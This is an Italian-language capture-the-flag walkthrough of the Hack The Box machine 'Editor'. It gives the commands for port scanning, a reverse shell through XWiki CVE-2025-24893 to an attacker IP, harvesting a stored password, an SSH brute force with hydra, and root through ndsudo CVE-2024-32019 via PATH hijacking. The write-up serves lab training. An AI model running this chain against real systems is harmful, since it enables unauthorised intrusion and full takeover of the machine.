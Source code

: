 # Macchina Editor

IP vittima: 10.129.94.246 
IP attacante: 10.10.14.245

## Recon

`sudo nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 10.129.94.246 -oG porte`

![](https://github.com/Xerand/Macchine-Hack-the-Box/blob/main/images/Pasted%20image%2020251009220545.png)

Porte: 22, 80, 8080
`nmap -sC -sV -p22,80,8080 10.129.94.246 -oN servizi`

## Porta 8080

![](https://github.com/Xerand/Macchine-Hack-the-Box/blob/main/images/Pasted%20image%2020251009221030.png)

## exploit CVE-2025-24893

Esiste un exploit per xwiki 15.10.10: CVE-2025-24893 (dal sito exploit-db)
Trovato uno script pyton per sfruttarlo
https://github.com/gunzf0x/CVE-2025-24893
Scaricato lo script, concessi i permessi di esecuzione(`chmod +x`)
mettersi in ascolto con netcat: `nc -nlvp 4500`
Lanciare lo script con il comando
`python3 CVE-2025-24893.py -t 'http://10.129.94.246:8080' -c 'busybox nc 10.10.14.245 4500 -e /bin/bash'`

Riusciamo entrare come utente xwiki

## username utente

con `cat /etc/passwd` vediamo l'elenco degli utenti tra cui compare l'utente oliver
![](https://github.com/Xerand/Macchine-Hack-the-Box/blob/main/images/Pasted%20image%2020251011101549.png)

## password utente

Nella cartella /usr/lib/xwiki/WEB-INF c'è il file hibernate.cfg.xml nel quale troviamo la password 'theEd1t0rTeam99'
E' possibile velocizzare la ricerca della password con un comando grep che cerca la parola password in tutti i file leggibili: 
`grep -R -n --color=always "password" . 2>/dev/null`

## Porta 22

Possiamo provare ad entrare in ssh con utente oliver e password theEd1t0rTeam99

#### Nel caso non avessimo trovato il nome utente ma solo la password (o viceversa) si può provare un attacco brute force

tentiamo un brute force di ssh usando la password trovata e una lista di nomi utente con il comando
`hydra -t 4 -L /usr/share/seclists/Usernames/Names/malenames-usa-top1000-lower.txt -p "theEd1t0rTeam99" ssh://10.129.94.246`
Troviamo l'utente oliver
![](https://github.com/Xerand/Macchine-Hack-the-Box/blob/main/images/Pasted%20image%2020251009222355.png)

entriamo in ssh con l'utente oliver e la password theEd1t0rTeam99
nella cartella /home/oliver troviamo il file user.txt che contiene la userflag

## scalata dei privilegi

con il comando 
`find / -perm -4000 -type f 2>/dev/null`
si cerca **all’interno di tutto il file system** (`/`) i file regolari (`-type f`) con il bit **SUID** impostato (`-perm -4000`)
si trova
![](https://github.com/Xerand/Macchine-Hack-the-Box/blob/main/images/Pasted%20image%2020251009234444.png)
Si cerca un exploit per ndsudo
ndsudo è vulnerabile all'exploit CVE-2024-32019
qui troviamo uno script per l'exploit: https://github.com/AzureADTrent/CVE-2024-32019-POC
Scarichiamo sulla nostra macchina lo script in C per l'exploit poc.c
lo compiliamo con il comando gcc poc.c -o nvme
mandiamo il file compilato nvme nella cartella tmp della macchina vittima con il comando:
`scp nvme oliver@10.129.94.246:/tmp/ `
inserendo la password di oliver (theEd1t0rTeam99)
diamo al file nvme i permessi di esecuzione con chmod +x /tmp/nvme
aggiungiamo al PATH la cartella tmp con export PATH=/tmp:$PATH
lanciamo ndsudo con lo script nvme con `/opt/netdata/usr/libexec/netdata/plugins.d/ndsudo nvme-list`
Siamo diventati root
Nella cartella /root è presente il file root.txt che contiene la rootflagtroviamo la rootflag nel file `root.txt` 
